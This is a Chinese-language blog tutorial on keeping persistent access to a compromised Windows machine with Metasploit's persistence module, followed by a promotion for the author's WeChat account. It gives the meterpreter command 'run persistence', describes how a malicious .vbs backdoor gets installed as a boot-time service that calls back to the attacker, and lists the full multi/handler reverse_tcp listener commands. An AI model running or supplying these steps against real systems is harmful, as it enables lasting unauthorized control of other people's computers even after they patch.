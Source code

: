 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit访问控制的持久化
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit访问控制的持久化
lock: need
---
```


# Metasploit访问控制的持久化

工具：Metasploit

为了实现这一点，可以选择在目标计算机上添加一个新的用户，也可以选择使用MSF中persistence模块。

运行persistence模块可以通过在目标计算机上安装一个永久性的后门来实现访问控制的持久化。这样，即使有一天目标计算机修补了漏洞，我们仍然可以通过这个连接来实现对目标计算机的控制。

这里，我们假设经过了一系列的渗透拿到了system权限的meterpreter，我们在meterpreter命令行执行如下命令：

```
run persistence
```

运行persistence模块会向目标计算机上传一个.vbs类型的恶意脚本文件，并在目标计算机上执行这个恶意脚本文件。这个脚本一旦在目标计算机上运行，每隔几秒钟就会主动连接攻击者的计算机。这个恶意脚本文件会被当做一个系统服务安装在目标计算机系统中，同时，会被添加到开机启动项中，因此，无论目标计算机重启多少次，该恶意服务都可以运行。除非卸载该服务或手动删除文件，否则恶意服务一直存在。

这里，我们重新开启一个MSF来验证：

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
exploit
```

此处需要注意的是：我们设置攻击载荷和LPORT选项必须与运行persistence模块时设置的攻击载荷和LPORT选项相同。

发出攻击命令exploit后，exploit/multi/handler开始等待从目标系统上发回来的连接。一旦传入的连接被检测到，控制端就会切换到Meterpreter命令行。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)